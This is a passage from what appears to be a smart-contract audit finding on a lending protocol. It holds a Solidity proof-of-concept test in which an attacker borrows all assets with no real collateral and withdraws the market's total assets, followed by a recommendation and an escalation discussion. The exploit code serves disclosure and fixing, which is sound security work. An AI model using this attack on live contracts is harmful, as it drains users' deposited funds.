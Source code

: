 ```solidity
    //throwAwayAccount puts up 1 wei of share as collateral, borrows all available assets and then withdraws 1 wei of asset
    throwAwayAccount.enterMarketAndBorrow(market, marketWETH);

    //this throwaway account now has a lot of debt and no collateral to back it
    (uint256 collateral, uint256 debt) = auditor.accountLiquidity(address(throwAwayAccount), Market(address(0)), 0);
    assertEq(collateral, 0);
    assertGt(debt, 3000 ether);

    //attacker gets away with everything
    market.withdraw(market.totalAssets(), address(this), address(this));

    assertEq(market.asset().balanceOf(address(this)), assetBalanceBefore - 1); //make sure attacker gets back all their assets
    //in addtion they get the borrowed assets for free
    assertEq(marketWETH.asset().balanceOf(address(this)), wETHBalanceBefore + 3000 ether);
  }
```
## Tool used
Manual Review

## Recommendation
- Fix #1 and #2 



## Discussion

**kankodu**

Escalate
The issues mentioned here got scrambled. This report references issues #35 and #40.

If only the inflation attack vector was present, the protocol couldn't be drained. Only in-motion funds after the inflation attack would have been at risk. 
This issue is different from a simple inflation attack. This results in the entire TVL being drained by taking advantage of issue #40. 


**sherlock-admin3**

> Escalate
> The issues mentioned here got scrambled. This report references issues #35 and #40.
> 
> If only the inflation attack vector was present, the protocol couldn't be drained. Only in-motion funds after the inflation attack would have been at risk. 
> This issue is different from a simple inflation attack. This results in the entire TVL being drained by taking advantage of issue #40. 
> 

You've created a valid escalation!

